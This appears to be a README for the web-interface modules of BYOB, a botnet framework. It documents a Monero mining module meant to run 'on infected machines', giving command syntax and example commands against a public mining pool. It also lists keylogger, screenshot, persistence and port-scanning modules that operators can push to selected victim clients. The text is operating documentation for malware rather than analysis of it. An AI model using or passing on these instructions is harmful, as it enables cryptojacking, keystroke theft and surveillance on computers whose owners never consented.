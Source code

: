 # BYOB Web GUI Modules

This directory contains modules that can be loaded and executed by BYOB clients through the web interface.

## Available Modules

### Miner

The `miner.py` module provides cryptocurrency mining capabilities using XMRig binaries. This module allows you to mine Monero (XMR) cryptocurrency on infected machines.

#### Usage

```
miner <start/stop/status> [url] [user] [threads]
```

#### Parameters

- `start`: Start the miner
  - `url`: Mining pool URL (e.g., stratum+tcp://xmr-eu1.nanopool.org:10300)
  - `user`: Wallet address or username
  - `threads`: Number of threads to use (default: 1)
- `stop`: Stop the miner
- `status`: Check the status of the miner

#### Examples

```
# Start mining with 2 threads
miner start stratum+tcp://xmr-eu1.nanopool.org:10300 YOUR_WALLET_ADDRESS 2

# Check miner status
miner status

# Stop mining
miner stop
```

#### Notes

- The miner uses XMRig binaries for efficient mining
- Mining is performed using the RandomX algorithm (rx/0)
- The miner runs in the background by default
- CPU usage can be controlled by specifying the number of threads

### Other Modules

- `keylogger.py`: Logs keystrokes
- `screenshot.py`: Takes screenshots
- `persistence.py`: Establishes persistence
- `portscanner.py`: Scans for open ports
- `process.py`: Manages processes
- And more...

## Using Modules in the Web Interface

Modules can be executed on selected clients through the web interface. Simply select the client(s) you want to target, choose the module from the dropdown menu, and provide any required parameters. 
